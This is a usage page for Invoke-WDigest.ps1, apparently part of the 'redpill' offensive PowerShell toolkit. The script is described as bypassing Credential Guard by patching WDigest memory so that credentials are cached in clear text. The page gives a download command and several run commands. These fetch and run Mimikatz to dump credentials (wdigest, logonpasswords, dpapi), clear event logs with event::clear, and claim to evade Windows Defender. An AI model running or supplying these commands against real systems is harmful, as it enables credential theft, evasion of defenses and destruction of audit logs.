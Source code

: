 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials *|<b><i>false</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|true|

<b><i>* Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system.</i></b><br />


<br />

**download Invoke-WDigest.ps1:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'


[WDIGEST CATCHING FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store (runas) credential input by user in clear-text in memory
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch allows me to pause this cmdlet execution until
   one credential its inputed, then starts cmd.exe with suplied credential
   in a minimized windows (detach from parent). Child process its necessary
   for mimikatz 'sekurlsa::wdigest' to dump the credential from Memory.
   
   [Downside] -runas switch pauses cmdlet execution waiting for credential input.
```

<br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
![POC1](https://user-images.githubusercontent.com/23490060/219876542-b4e29d8c-fb39-47ec-ae36-6513154e8aa3.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Invoke-WDigest.ps1 only bypasses mimikatz detection if windows defender its the only AV running in target system</i></b><br />
![ProactiveDefense](https://user-images.githubusercontent.com/23490060/219057639-902cc82a-43a3-4391-9927-4b55e532a78c.png)


